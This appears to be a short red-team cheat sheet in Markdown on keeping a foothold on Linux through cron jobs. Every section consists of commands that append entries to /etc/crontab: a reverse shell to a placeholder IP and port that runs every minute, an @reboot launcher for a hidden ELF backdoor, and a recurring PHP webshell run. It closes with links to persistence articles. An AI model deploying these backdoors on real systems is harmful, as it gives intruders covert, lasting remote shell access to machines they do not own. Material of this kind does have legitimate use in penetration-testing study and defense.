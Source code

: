 # Cron Jobs

## 01 - Usage

- Open an editor via crontab

`$ sudo crontab -e`

This will execute every minute to trigger the backdoor.

```
$ sudo echo "* * * * * <commands>" >> /etc/crontab

$ crontab -l
```

## 02 - Callback Shells

- Reverse Shell Backdoor

```
$ sudo echo "* * * * * /bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1" >> /etc/crontab

$ sudo echo "@reboot nohub /home/<username>/.directory/elf_backdoor" >> /etc/crontab
```

- Webshell backdoor

`$ sudo echo "* * * * * php -f /var/www/html/logout.php" >> /etc/crontab`

## References

- [Linux Backdoors and Where to Find Them](https://fahmifj.github.io/blog/linux-backdoors-and-where-to-find-them/)

- [Linode: Linux Red Team Persistence Techniques](https://www.linode.com/docs/guides/linux-red-team-persistence-techniques/)